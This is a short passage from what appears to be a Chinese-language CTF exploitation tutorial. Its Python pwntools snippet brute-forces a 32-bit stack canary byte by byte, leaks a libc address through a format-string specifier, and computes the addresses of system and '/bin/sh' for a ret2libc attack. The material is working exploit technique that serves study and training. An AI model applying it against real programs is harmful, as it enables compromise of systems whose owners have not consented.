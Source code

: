 ![Alt](img/canary24.png)

```python
    canary = '\x00' # 先确定canary低8位
    for i in range(3):  # canary最低位为\x00,32为程序，所以只需要爆破3个字符位即三次0x00~0xFF
        for j in range(256):
            p.sendline('Y')
            p.recv()
            p.sendline('%19$p') # 泄露栈上的libc地址
            p.recvuntil('game')
            leak_libc_addr = int(p.recv(11),16) # 泄露出来的地址是10个字符长度(16进制数)

            p.recv()
            payload = 'A'*16    # 字符覆盖到canary处
            payload += canary   # 将已知的和已经爆破出来的canary值覆盖的相应的位置
            payload += chr(j)   # 爆破一个字符位的值
            p.send(payload)
            p.recv()
            if("***" != p.recv(3)):  # 如果canary的字节位爆破正确，应该输出两个" Do you love me?",如果字节位出错，那么则会先先输出 *** stack smashing detected ***
                canary += chr(j)    # 小端，低位字节在前
                log.info('At round %d find canary byte %#x' %(i, j))
                break
    log.info('Canary is %#x' %(u32(canary)))
    elf = ELF('/lib/i386-linux-gnu/libc.so.6')
    system_offset = elf.symbols['system']
    binsh_offset = next(elf.search('/bin/sh'))
    system_addr = leak_libc_addr - 0x2EBF0 - 0x1B + system_offset
    binsh_addr = leak_libc_addr - 0x2EBF0 - 0x1B + binsh_offset
    log.info('System address is at %#x, /bin/sh address is at %#x' %(system_addr, binsh_addr))
```

![Alt](img/canary25.png)

